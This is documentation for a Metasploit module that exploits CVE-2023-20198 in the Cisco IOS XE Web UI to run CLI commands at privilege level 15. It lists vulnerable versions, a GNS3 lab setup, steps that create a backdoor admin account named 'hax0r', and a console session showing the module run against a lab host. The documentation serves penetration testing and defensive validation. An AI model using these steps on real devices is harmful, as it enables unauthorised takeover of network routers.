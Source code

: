 ## Vulnerable Application
This module leverages CVE-2023-20198 against vulnerable instances of Cisco IOS XE devices which have the
Web UI exposed. An attacker can execute arbitrary CLI commands with privilege level 15.

You must specify the IOS command mode to execute a CLI command in. Valid modes are `user`, `privileged`, and
`global`. To run a command in "Privileged" mode, set the `CMD` option to the command you want to run,
e.g. `show version` and set the `MODE` to `privileged`.  To run a command in "Global Configuration" mode, set
the `CMD` option to the command you want to run,  e.g. `username hax0r privilege 15 password hax0r` and set
the `MODE` to `global`.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
  can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
  to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
  how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000V instance as a QEMU device.
  * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
  to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
  be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "username hax0r privilege 15 secret hax0r"`
5. `set MODE global`
6. `run`
7. Visit `https://<TARGET_IP_ADDRESS>/webui/` in a browser and log in with username `hax0r` and password `hax0r`.

## Options

### CMD

The Cisco CLI command to execute.

### MODE
Cisco IOS commands cna be executed in one of several modes, specifically "User EXEC" mode, "Privileged EXEC" mode, and 
"Global Configuration" mode. The `MODE` options lets you explicitly set what mode you want the `CMD` to execute in. Valid
modes are `user`, `privileged`, and `global`.

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "show version"
CMD => show version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set MODE privileged
MODE => privileged
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      show version     yes       The CLI command to execute.
   MODE     privileged       yes       The mode to execute the CLI command in, valid values are 'user', 'privileged', or 'global'.
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57


Cisco IOS XE Software, Version 16.12.03
Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2020 by Cisco Systems, Inc.
Compiled Mon 09-Mar-20 21:50 by mcpre
Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
All rights reserved.  Certain components of Cisco IOS-XE software are
licensed under the GNU General Public License ("GPL") Version 2.0.  The
software code licensed under GPL Version 2.0 is free software that comes
with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
GPL code under the terms of GPL Version 2.0.  For more details, see the
documentation or "License Notice" file accompanying the IOS-XE software,
or the applicable URL provided on the flyer accompanying the IOS-XE
software.
ROM: IOS-XE ROMMON
router uptime is 3 hours, 59 minutes
Uptime for this control processor is 4 hours, 2 minutes
System returned to ROM by reload
System image file is "bootflash:packages.conf"
Last reload reason: reload
This product contains cryptographic features and is subject to United
States and local country laws governing import, export, transfer and
use. Delivery of Cisco cryptographic products does not imply
third-party authority to import, export, distribute or use encryption.
Importers, exporters, distributors and users are responsible for
compliance with U.S. and local country laws. By using this product you
agree to comply with applicable laws and regulations. If you are unable
to comply with U.S. and local laws, return this product immediately.
A summary of U.S. laws governing Cisco cryptographic products may be found at:
http://www.cisco.com/wwl/export/crypto/tool/stqrg.html
If you require further assistance please contact us by sending email to
export@cisco.com.
License Level: ax
License Type: N/A(Smart License Enabled)
Next reload license Level: ax
Smart Licensing Status: UNREGISTERED/No Licenses in Use
cisco CSR1000V (VXE) processor (revision VXE) with 1113574K/3075K bytes of memory.
Processor board ID 9OVFUOGPESO
4 Gigabit Ethernet interfaces
32768K bytes of non-volatile configuration memory.
3012164K bytes of physical memory.
6188032K bytes of virtual hard disk at bootflash:.
0K bytes of WebUI ODM Files at webui:.
Configuration register is 0x2102

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run CMD="show clock"
[*] Running module against 192.168.86.57


*15:24:05.110 UTC Fri Nov 3 2023
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > 
```